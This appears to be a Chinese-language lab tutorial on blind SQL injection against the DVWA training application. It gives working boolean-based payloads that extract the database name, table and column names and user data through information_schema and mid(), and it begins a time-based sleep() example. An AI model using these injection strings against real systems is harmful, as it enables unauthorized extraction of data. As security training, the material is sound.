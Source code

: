 ```/var/www/html/www1/vulnerabilities/sqli/source```在这个文件下有源码在+一条```echo $query```![1559638360170](assets/1559638360170.png)

##### 内联注入

直接用内联注入简单快捷。。

用```length(database())=xx```来判断数据库名长度如果成立就会返回正常

![1559643740924](assets/1559643740924.png)

说明数据库名为4位

![1559643802791](assets/1559643802791.png)

```1' and mid(database(),1,1)<'g'#```使用mid来判断数据库第一位的内容只需要修改第二个标志位来判断位数如果为正确就会返回存在ID

![1559643914467](assets/1559643914467.png)

```1' and mid(database(),2,1)='v'#```

![1559643934863](assets/1559643934863.png)

后面就省略了。之后会有脚本教学进行判断



``````
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1# 显示不存在
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2# 显示存在说明当前数据库存在两个表
``````

``````
1' and length(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9# 显示存在说明第一个表名字长度为9
``````

``````
1' and mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='g'# 显示存在说明第一个表的第一个字为g
``````

``````
1' and mid((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u'# 显示存在说明users表的第一个字段为u
``````

``````
1' and mid((select first_name from dvwa.users limit 0,1),1,1)='a'#  显示存在说明first_name的字段，第一个的数据为a
``````

时间盲注加个sleep就可以了

``````
1' and if(length(database())=1,sleep(5),1) # 没有延迟
